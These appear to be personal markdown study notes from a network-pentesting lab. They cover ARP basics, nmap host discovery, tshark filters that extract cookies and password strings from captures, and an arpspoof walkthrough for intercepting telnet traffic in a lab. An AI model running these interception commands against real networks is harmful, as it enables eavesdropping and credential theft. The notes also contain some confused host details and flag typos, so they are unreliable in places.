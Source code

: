  ARP
 IP -> MAC resolution
 
ARP Poisoning ; broadcasting ARP packets that tell other computers that you are another on the network. - this would mean traffic meant for that computer would come to you

Promiscuous mode : listen to all traffic on a network.

 
>live host scan 
```bash
nmap $IP/CIDR -sn
```

## Tshark usage
clli version of wireshark 
`-i `select iface
`-D` list iface and exit
`-r` input from a fiile - PCAP files and all.
`-`z for stats
`-Y` to apply a filter
`-e `tells what field/column in the capture output to display

>run tshark on a pcap file :-
```bash
tshark -r file.pcap

wc -l 
```

>statistic switches :-
```bash
tshark -r file.pcap -z io,phs -q
```
io, phs outputs the protocol hierarchy and frames and bytes. in the capture file.

FILTERING
```bash
filter only http traffic 
> tshark -r file.pcap -Y "http" | more

Filter to show only HTTP GET requests
> tshark -r file.pcap -Y "http.request.method==GET" | more

Filter to show only Source and Dest IP
> tshark -r file.pcap -Y 'ip.src==$IP && ip.dst==$IP' | more

Look xat specific fields in the capture 
> tshark -r file.pcap -Y 'http.request.method==GET' -Tfields -e frame.time -e ip.src -e http.request.full_uri

Filter with REGEXP if "password" is in any request packet
> tshark -r file.pcap -Y 'http contains password'

Filter to see only GET and POST reqs and if request to a website "nytimes.com" was made 
> tshark -r file.pcap -Y "http.request.method==GET && http.host==www.nytimes.com" -Tfield -e ip.dst

Filter to see the IP address of amazon and the ip addresses that made requests to the site with their cookie
> tshark -r file.pcap -Y 'ip contains amazon.in && ip.src==$IP' -Tfields -e ip.src -e http.cookie

Filter to see the user agent along with an IP address 
tshark -r file.pcap -Y 'ip.src==$IP && http' -Tfield -e http.user_agent
```

****
### ARP Poisoning
```bash
redirect stdin to ip_forward
> echo 1> /proc/sys/net/ipv4/ip_forward

spoof our IP into another on the network 
> arpspoof -i eth1 -t $SPOOF_IP -r $TARGET_SENDING_CONN
> arpspoof -i eth1 -t 10.100.13.37 -r 10.100.13.36
```
.36 runs telnet
.37 is a host on the network w/no services - a client

Here, basically we are pretending to be the Telnet server, and the client on .36 tries to connect to us .140,  instead of .37

### Wifi Traffic Analysis
```bash

```